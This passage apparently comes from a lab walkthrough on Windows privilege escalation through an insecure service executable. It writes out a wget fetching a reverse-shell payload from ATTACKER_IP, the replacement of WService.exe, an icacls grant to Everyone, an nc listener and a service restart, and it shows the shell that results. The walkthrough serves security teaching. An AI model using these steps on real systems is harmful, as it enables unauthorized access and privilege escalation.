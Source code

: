 We can then pull the payload from Powershell with the following command:

- **Powershell**        

```shell-session
wget http://ATTACKER_IP:8000/rev-svc.exe -O rev-svc.exe
        
```

Once the payload is in the Windows server, we proceed to replace the  service executable with our payload. Since we need another user to  execute our payload, we'll want to grant full permissions to the  Everyone group as well:

- **Command Prompt**        

```shell-session
C:\> cd C:\PROGRA~2\SYSTEM~1\

C:\PROGRA~2\SYSTEM~1> move WService.exe WService.exe.bkp
        1 file(s) moved.

C:\PROGRA~2\SYSTEM~1> move C:\Users\thm-unpriv\rev-svc.exe WService.exe
        1 file(s) moved.

C:\PROGRA~2\SYSTEM~1> icacls WService.exe /grant Everyone:F
        Successfully processed 1 files.
        
```

We start a reverse listener on our attacker machine:

- **Kali Linux**        

```shell-session
user@attackerpc$ nc -lvp 4445
        
```

And finally, restart the service. While in a normal scenario, you  would likely have to wait for a service restart, you have been assigned  privileges to restart the service yourself to save you some time. Use  the following commands from a cmd.exe command prompt:

- **Command Prompt**        

```shell-session
C:\> sc stop windowsscheduler
C:\> sc start windowsscheduler
        
```

**Note:** PowerShell has `sc` as an alias to `Set-Content`, therefore you need to use `sc.exe` in order to control services with PowerShell this way.

As a result, you'll get a reverse shell with svcusr1 privileges:

- **Kali Linux**        

```shell-session
user@attackerpc$ nc -lvp 4445
Listening on 0.0.0.0 4445
Connection received on 10.10.175.90 50649
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
wprivesc1\svcusr1
        
```
